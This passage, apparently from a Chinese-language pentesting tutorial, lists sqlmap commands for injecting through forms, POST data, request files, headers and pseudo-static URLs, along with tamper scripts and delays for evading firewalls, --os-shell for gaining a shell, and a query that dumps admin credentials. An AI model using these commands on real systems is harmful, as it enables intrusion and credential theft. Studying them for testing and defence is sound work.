 select username, password from t_ _admin; 

获得管理员账号记录:

账号：admin

md5 ：xxx

# 如果发现网页有个表单，如何进行注入？

--from

>sqlmap.py-u (url) --forms --batch表框注入，不需要任何操作，自动测试注入。

# 如何对一个url通过post进行注入？

--data "var1=parm1 &var2=parm2"

# 拿到一个HTTP请求包，如何进行注入？

-r "request.txt" 

>  sqlmap.py-r 1.txt

# 如何执行HTTP头部注入？

sqlmap.py -U "X.XXXXX" --level 2 --cookie "xx=xx"

# 如何进行伪静态注入？

url后面加* (星号）

-u "http://host/app/index/id/1*"

# sqlmap如何绕WAF？

通过--tamper选项绕过: --tamper

space2morehash.py

设置延时请求间隔秒: --delay=2

定期访问安全页面: --safe-url, --safe-freq

# sqlmap如何拿shell？

--os-shell

前提:必须知道网站根目录的绝对路径

# sqli如何防御或修复？
